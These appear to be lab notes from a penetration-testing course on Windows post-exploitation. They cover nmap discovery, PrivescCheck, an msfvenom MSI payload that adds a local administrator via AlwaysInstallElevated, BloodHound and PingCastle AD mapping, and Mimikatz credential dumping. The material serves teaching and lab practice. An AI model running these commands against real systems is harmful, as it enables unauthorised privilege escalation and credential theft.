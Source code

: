 # Windows Attack example
Based on lab tasks: Maintaining access and Lateral Movement

**Premise**
We have already gained access (infected 2 machines): 
- a linx machine
- a windows machine
    - with ad user tmassie (without local admin rights)
    - tools like Mimikatz, etc. are available 
        - (in a real environment, these tools would be detected)



## 1. Basics, Host + Service discovery
From the Linux machine, we perform analysis of the network
1. `ip -c address list eth0`  (as root): we get our IP and network address
2. Host discovery via Nmap 
    - `nmap -n -Pn --top-ports=10 10.0.1.0/24 -oA nmap_winlab_host_discovery --min-rate=5000` (will write result into file because of -oA)
        - -n -> no DNS resolution
        - --min-rate=5000 -> set a minimum rate to guarantee a timely result
    - `cat nmap_winlab_host_discovery.gnmap | awk '/Up/ {print $2}' | sort -Vu > hosts_winlab.txt` 
        - take result from nmap scan and write ip's into a file (`cat cat hosts_winlab.txt`)
3. Service discovery
    - `nmap -n -sC -sV -iL hosts_winlab.txt -oA nmap_winlab_script_version_scan --min-rate=5000` takes list of Ips and runs service discovery (via -iL param)
        - sC -> Script Scan -> Runs default scripts against known services
        - -sV -> Service/Version detection -> Tries to determine service/version for open ports

## Situational awareness and privilege escalation to local admin

**Windows configuration check with PrivescCheck**
Run PrivescCheck ( https://github.com/itm4n/PrivescCheck ) to get info about windows configuration. 
1. `powershell -exec bypass`
2. `cd C:\temp\tools\PrivescCheck\`
3. `Import-Module .\PrivescCheck.ps1`
4. `Invoke-PrivescCheck` -> we get result with configuration issues. 
    - We might see something like: "CONFIG > WSUS Configuration" or "CONFIG > AlwaysInstallElevated"

**Privilege escalation vie AlwaysInstalledElevated**
We assume the the PrivescCheck has shown we are vulnerable AlwaysInstalledElevated
(allows to run MSI as admin https://learn.microsoft.com/en-us/windows/win32/msi/alwaysinstallelevated). 
Our goal is now create an msi that creates a local admin and run it. 

1. Create msi metasploit/msfvenom (on linux)
    - `msfvenom -p windows/x64/exec CMD='cmd.exe /k "net user /add hacker Hacker@Work && net localgroup administrators hacker /add"' -f msi > useradd.msi`
        - will create a msi file "useradd.msi" that runs the following code: "net user /add hacker Hacker@Work && net localgroup administrators hacker /add"$
        - User to be created: "hacker" with password "Hacker@Work"
2. Copy file to windows machine
    - any means is possible (web attachment, file share etc.)
    - one way is gosh, as small webserver: https://github.com/patrickhener/gosh (see lab task)
    - attention: when downloading on windows machine, one might have to click away warning
3. Run created msi on linux
    - just run created msi (click away warning) and user is created (even if installer seems to abort)
4. Check
    - run `net user` and `net user hacker` to see if creation was successful
5. run as local admin (hacker)
    - start cmd as admin, pop up will show and we can enter credentials ("hacker", "Hacker@Work")
    - now we can run commands as local admin
        `whoami /groups?` -> we see that our user is in Administrator group and by "Mandatory label\High Mandatory Level" we see it runs in elevated mode

## Active directory info gathering & analysis

1. Runs PingCastle `.\PingCastle.exe` and choose healthcheck to generate result as html. 
https://www.pingcastle.com/PingCastleFiles/ad_hc_rules_list.html


2. Run bloodhound to find potential paths to domain admin
    - collect AD data and import it into bloodhound (for example via SharpHound)
    - find path to domain admin (or whatever we would like to do)
    - *see lab tasks "Maintain Access/AD Information Gathering & Analysis" or "Bloodhound_AD.md*

## Get other credentials from LSASS/SAM 
Using Mimimkatz, we can now get credentials of other (currently logged on) users. (or some other tool would be possible too)
Via Mimikatz we can get credentials (NTLM hashes) from
- LSASS process (AD accounts)
- SAM process (local accounts)
If we get new credentials, we can afterwards update Bloodhound paths (owned flag) to see how much closer we got to our target.

*see lab tasks "Maintain Access/Credential Dumping on Windows 10 Client" or "Mimikatz_Credentials.md*


## Varia/Random
Usually, these steps might have to be applied multiple times (in rounds). Example: from a machine we escalate to local admin, to get AD credentials of another user so we can jump to another machine, to which other users are logged in etc. etc.